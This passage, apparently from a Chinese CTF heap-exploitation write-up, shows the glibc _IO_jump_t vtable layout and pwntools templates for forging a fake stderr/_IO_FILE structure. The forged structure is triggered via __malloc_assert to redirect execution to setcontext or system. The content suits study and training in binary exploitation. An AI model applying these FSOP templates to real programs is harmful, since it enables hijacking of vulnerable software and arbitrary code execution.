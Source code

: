 ```c
    JUMP_FIELD(size_t, __dummy);
    JUMP_FIELD(size_t, __dummy2);
    JUMP_FIELD(_IO_finish_t, __finish);
    JUMP_FIELD(_IO_overflow_t, __overflow);
    JUMP_FIELD(_IO_underflow_t, __underflow);
    JUMP_FIELD(_IO_underflow_t, __uflow);
    JUMP_FIELD(_IO_pbackfail_t, __pbackfail);
    /* showmany */
    JUMP_FIELD(_IO_xsputn_t, __xsputn);
    JUMP_FIELD(_IO_xsgetn_t, __xsgetn);
    JUMP_FIELD(_IO_seekoff_t, __seekoff);
    JUMP_FIELD(_IO_seekpos_t, __seekpos);
    JUMP_FIELD(_IO_setbuf_t, __setbuf);
    JUMP_FIELD(_IO_sync_t, __sync);
    JUMP_FIELD(_IO_doallocate_t, __doallocate);
    JUMP_FIELD(_IO_read_t, __read);
    JUMP_FIELD(_IO_write_t, __write);
    JUMP_FIELD(_IO_seek_t, __seek);
    JUMP_FIELD(_IO_close_t, __close);
    JUMP_FIELD(_IO_stat_t, __stat);
    JUMP_FIELD(_IO_showmanyc_t, __showmanyc);
    JUMP_FIELD(_IO_imbue_t, __imbue);
#if 0
    get_column;
    set_column;
#endif
};
```
##### &emsp;&emsp;&emsp;对于__malloc_assert的触发方法, 我们需要伪造stderr结构体, 以下是一个通用的模板(https://bbs.kanxue.com/thread-273895.htm#msg_header_h3_5)
```python
fake_io_addr=heapbase+0xb00 # 伪造的fake_IO结构体的地址
next_chain = 0
fake_IO_FILE=p64(rdi)         #_flags=rdi
fake_IO_FILE+=p64(0)*7
fake_IO_FILE +=p64(1)
fake_IO_FILE +=p64(2) #_IO_saveup_base rcx!=0(FSOP)
fake_IO_FILE +=p64(fake_io_addr+0xb0)#_IO_backup_base=rdx
fake_IO_FILE +=p64(call_addr)#_IO_save_end=call addr(call setcontext/system)
fake_IO_FILE = fake_IO_FILE.ljust(0x68, '\x00')
fake_IO_FILE += p64(0)  # _chain
fake_IO_FILE = fake_IO_FILE.ljust(0x88, '\x00')
fake_IO_FILE += p64(heapbase+0x1000)  # _lock = a writable address
fake_IO_FILE = fake_IO_FILE.ljust(0xa0, '\x00')
fake_IO_FILE +=p64(fake_io_addr+0x30)#_wide_data,rax1_addr
fake_IO_FILE = fake_IO_FILE.ljust(0xc0, '\x00')
fake_IO_FILE += p64(1) #mode=1
fake_IO_FILE = fake_IO_FILE.ljust(0xd8, '\x00')
fake_IO_FILE += p64(libcbase+0x2160c0+0x10)  # vtable=IO_wfile_jumps+0x10
fake_IO_FILE +=p64(0)*6
fake_IO_FILE += p64(fake_io_addr+0x40)  # rax2_addr
```
##### &emsp;&emsp;&emsp;更加具体的模板, 来自https://xz.aliyun.com/t/13016?time__1311=GqmhBKYKGIqGx0HQ1DunFG8YwpVDpYD
```c
fake_struct = p64(0)                    #_IO_read_end
fake_struct += p64(0)                   #_IO_read_base
fake_struct += p64(0)                   #_IO_write_base
fake_struct += p64(0)                   #_IO_write_ptr
fake_struct += p64(0)                   #_IO_write_end
fake_struct += p64(0)                   #_IO_buf_base
fake_struct += p64(1)                   #_IO_buf_end
```